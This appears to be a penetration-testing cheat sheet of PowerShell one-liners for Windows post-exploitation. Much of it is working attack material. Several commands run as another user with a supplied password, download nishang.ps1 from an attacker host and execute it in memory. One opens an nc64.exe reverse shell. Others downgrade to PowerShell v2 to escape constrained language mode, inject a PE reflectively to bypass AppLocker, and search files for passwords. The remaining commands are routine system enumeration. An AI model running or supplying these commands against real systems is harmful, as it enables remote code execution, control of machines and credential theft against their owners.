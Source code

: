 ## Execute Powershell as a different user
### Method #1: Start-Job --> Has Fork Effect
```powershell
$cred = New-Object System.Management.Automation.PSCredential ("<USERNAME>", (ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force))
Start-Job -Credential $Cred -ScriptBlock {IEX(New-Object Net.webClient).downloadString('http://<KALI_IP>/nishang.ps1')}
```
### Method #2: Start-Process --> Has Fork Effect
```powershell
$cred = New-Object System.Management.Automation.PSCredential ("<USERNAME>", (ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force))
Start-Process -Credential $Cred PowerShell.exe -ArgumentList IEX(New-Object Net.webClient).downloadString('http://<KALI_IP>/nishang.ps1')
```
### Method #3: Invoke-Command --> Has Fork Effect
```
$cred = New-Object System.Management.Automation.PSCredential ("<USERNAME>", (ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force))
Invoke-Command 127.0.0.1 -Credential $Cred -Scriptblock {c:\programdata\nc64.exe -e powershell.exe <KALI_IP> <PORT>} -AsJob
```

## Downgrade to powershell v2 (bypass constrained language mode)
```powershell
Start-Process Powershell.exe -ArgumentList "-v 2 -c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/nishang.ps1')"
```

## Execute powershell in memory
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') | IEX
```

## Get files only in a directory
```powershell
(ls -File -Recurse -Force -EA SilentlyContinue).fullname
```

## Get OS architecture
```powershell
$env:processor_architecture
```

## Get Process Architecture
```powershell
[Environment]::Is64BitProcess
```

## Locally listening ports (TCP)
```
netstat -ano -p tcp
```

## Get ACL
```powershell
Get-ACL <PATH_TO_FILE> | Select -Exp AccessToString
```

## get file system access
```powershell
$ErrorActionPreference = 'silentlycontinue'; ls -recurse -force | ? {$_.fullname -notmatch 'AppData|Application Data|Local Settings'} | ? {(get-acl $_.fullname ).accesstostring -like '*tushikikatomo*'} | select -expand fullname; $ErrorActionPreference = 'continue'
```

## Get Process Owners
```powershell
Get-WmiObject -class win32_process | ? {$_.name -notlike '*svchost*'} | select name,@{n='owner';e={$_.getowner().user}} | ft -autosize
```

## Get .NET Version
### Paths:
```
c:\windows\microsoft.net\framework
c:\windows\microsoft.net\framework64
```
### Command:
```powershell
(Get-Item "c:\windows\microsoft.net\framework64\*\clr.dll").VersionInfo.ProductVersion
```

## get-bytes of a string
```powershell
[System.Text.Encoding]::UTF8.GetBytes('hello')
```

## Reflective Execution (Can Bypass Applocker)
```powershell
Invoke-reflectivePEInjection -PEBytes ([IO.File]::ReadAllBytes('<PATH_TO_EXE>'))
```

## CMD to powershell
```shell
powershell "IEX(New-Object Net.webClient).downloadString('http://<LHOST>:<LPORT>/nishang.ps1')"
```

## Find files Alternate Data Streams
```powershell
$ErrorActionPreference = 'SilentlyContinue'; ls * -Recurse -Force | % {Get-Item $_ -Stream * | ? {$_.Stream -notmatch ':\$DATA|Zone\.Identifier'} |Select FileName, Stream};
$ErrorActionPreference = 'Continue'
```

## View listening connections (with optional PID translation to Proc names)
```powershell
$PROCS = Get-Process;
(Get-NetIPAddress -InterfaceAlias Ethernet0).IPAddress, '127.0.0.1', '0.0.0.0' | % {
	Get-NetTCPConnection -ErrorAction SilentlyContinue -LocalAddress "$_" | 
	Sort-Object LocalPort | 
	Select-Object @{n='Process';e={$ID = $_.OwningProcess; if($PROCS){($PROCS|?{$ID -eq $_.id}).name}else{$ID}}},LocalAddress,LocalPort,RemotePort, RemoteAddress, State |
    ? {$_.localport -lt 49152} |
	Format-Table
}
```

## Enable PowerShell Remoting
```powershell
Enable-PSRemoting -Force
```

## Search for strings in files (needs optimization)
```
$ErrorActionPreference = 'SilentlyContinue';ls -Recurse -Force | % {sls -Path $_.fullname -Pattern ".*password.*"}; $ErrorActionPreference = 'continue'
```